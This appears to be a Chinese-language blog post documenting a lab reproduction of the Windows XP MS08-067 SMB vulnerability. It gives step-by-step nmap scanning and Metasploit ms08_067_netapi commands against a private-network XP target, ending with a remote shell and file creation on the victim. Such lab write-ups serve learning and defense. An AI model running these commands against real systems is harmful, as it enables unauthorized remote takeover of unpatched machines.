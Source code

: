```yaml
---
title: 【漏洞】windows漏洞MS08-067复现与攻击
date: 2024-11-20
slug: ms08-067review-atk
image: done.png
tag: 
    - CTF
    - 网络安全
    - windows
    - 漏洞
categories: 
    - 网络安全

---
```


## 准备工作

环境：

> 攻击机（192.168.15.128）：Kali GNU/Linux Rolling x86_64
>
> 靶机（192.168.15.129）：
> Windows XP Professional with Service Pack 3 (x86) 

本次攻击测试靶机镜像来自[MSDN, 我告诉你](https://msdn.itellyou.cn/)，特别鸣谢！

由于该漏洞已于2008年末被巨硬以发布补丁包的方式修复，所以有些较新的或者整合的镜像<mark>无法复现此漏洞</mark>，本人盆友亲测，故在此给出本人所用镜像，有需要可以到上面的网站下载：

````
zh-hans_windows_xp_professional_with_service_pack_3_x86_cd_x14-80404.iso
SHA1: 69DBF131116760932DCF132ADE111D6B45778098
文件大小: 601.04MB
发布时间: 2008-05-01
````

## 开始

配置好XP系统，`win+R`输入`cmd`，在命令窗口执行查询ip命令：

````cmd
ipconfig
````

![ipconfig](ipconfig.png)

可知靶机ip为：`192.168.15.129`

在我们的kali里依法炮制，查询ip：

````bash
ifconfig
````

![ifconfig](ifconfig.png)

可知攻击机ip为：`192.168.15.128`

两台机器在同一网段，方便我们进行后续操作。

## 攻击

请出`nmap`，对靶机进行扫描：

````bash
nmap -sV -Pn 192.168.15.129  
````

解释下命令的参数：

`-sV` 表示启用版本检测。-sV 使得 nmap 在扫描时不仅会检查开放的端口，还会尝试确定运行在这些端口上的服务的版本信息。例如，如果某个端口上运行的是 HTTP 服务，nmap 会尝试识别是 Apache、Nginx 还是其他 Web 服务，并尝试获取它们的版本号。

`-Pn` 该选项告诉 nmap 不进行主机发现（Host Discovery）。通常，nmap 在扫描前会先进行主机发现，以确定目标主机是否在线（通过发送 ICMP 请求或 SYN 包等方式）。-Pn 选项告诉 nmap 跳过这一步，直接假设目标主机是在线的并进行扫描。

扫描得到：

![nmap](nmap.png)

可以看到靶机开放了三个端口，其中就有我们今天要利用的`445`端口。

直接启动`msf`进行漏洞利用：

````bash
msfconsole  
````

因为我们已经知道了这个漏洞叫`MS08-067`，所以直接搜索：

````bash
msf6> search ms08-067
````

![msf-search](msf.png)

可以看到它找到了一个结果，来使用它：

````bash
msf6> use exploit/windows/smb/ms08_067_netapi
````

或：

````bash
msf6> use 0
````

然后我们来选择靶机版本`target`，本人的msf在使用`search`后会自动列出所有`target`，但是盆友亲测不会，所以使用命令来列出所有`target`：

````bash
msf6> show target
````

这里一定要注意选择你自己的靶机版本，比如盆友使用的是简体中文版的winxp sp3，选用繁中版本xp或者是server的都会无法连接：

````
The connection was refused by the remote host (192.168.91.131:445).
````

默认`target`为第一个（0），可能后面会使用`set TARGET 序号/名称`来设定`target`：

````bash
msf6> set TARGET 'Windows XP SP3 Chinese - Simplified(NX)'
````

效果图在下一张图片。

不建议复制我的，因为不同环境它的序号和名字也会变，比如我的简中XP序号是35，朋友的是10。

![different](different.png)

如果设定了错误的`target`并且已经执行了的话，需要重启靶机，不然会无法连接到靶机的445端口。

配置好target后，继续使用`set`来配置剩下需要配置的参数，查看所需参数：

````bash
msf6> show options
````

![options](msf-show-options.png)

配置`RHOSTS`、`RPORT`:

````bash
msf6> set RHOSTS 192.168.15.129
msf6> set RPORT 445
````

这里遇到很神奇的事，可能是我俩版本不一样，我可以使用`RHOST`代替`RHOSTS`，但是朋友这样输就会报错，以及可能msf不会给你自动配置`RPORT`、`LHOST`，具体需要参考上面的`options`是否已有值。

一切准备好后，开始攻击！

输入`run`:

````bash
msf6> exploit(windows/smb/ms08_067_netapi) > run
````

![set](gatch.png)

成功拿到shell!

来测试一下：

````bash
cd ..
mkdir Ciallo
cd Ciallo
edit hacknya.txt
sysinfo
````

![test](done.png)

完美！

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=1965377560&auto=0&height=66"></iframe>